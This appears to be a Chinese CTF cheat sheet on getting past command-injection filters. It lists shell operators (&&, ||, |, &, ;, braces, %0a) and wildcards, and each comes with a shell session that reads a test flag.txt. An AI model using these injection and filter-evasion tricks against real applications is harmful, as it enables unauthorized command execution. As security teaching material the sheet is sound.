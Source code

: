 <br/>

### 符号绕过
- `&&` 只有前面的命令执行成功，才执行拼接后面的命令
- `||` 只有前面的命令执行失败，才执行拼接后面的命令
- `|`  管道符，将左边输出的内容作为右边的命令的输入，所以左边的内容并不输出
- `&`  将此进程设置为后台进程
- `;`  分号为Linux中的命令分隔符
- `{}` 绕过
- `%0a` 换行符
<br/>

```php
root@gnq:~# whoami && cat flag.txt
root
flag{2333333_test_file}

root@gnq:~# test  ||  cat flag.txt
flag{2333333_test_file}

root@gnq:~# echo "hello" |  cat flag.txt
flag{2333333_test_file}

root@gnq:~# pwd &  cat flag.txt
[1] 9652
/root
flag{2333333_test_file}
[1]+  Done                    pwd

root@gnq:~# pwd;cat flag.txt
/root
flag{2333333_test_file}

root@gnq:~# {cat,flag.txt}
flag{2333333_test_file}

```
<br/>

### 通配符绕过

- `*` 代表0到无穷个任意字符 
- `?` 一个任意字符
- `[ - ]` 表示在这个区间的任意字符，如[a-z]表示a到z的26个字符
- `[^]` 表示取反，如[^a]表示非a字符

<br/>

```php
root@gnq:~# cat fl*g.txt
flag{2333333_test_file}

root@gnq:~# cat fl?g.txt
flag{2333333_test_file}

root@gnq:~# cat fl[a,b,c,d]g.txt
flag{2333333_test_file}

root@gnq:~# cat fl[a-z]g.txt
flag{2333333_test_file}

root@gnq:~# cat fl[^b]g.txt
flag{2333333_test_file}
```
<br/>
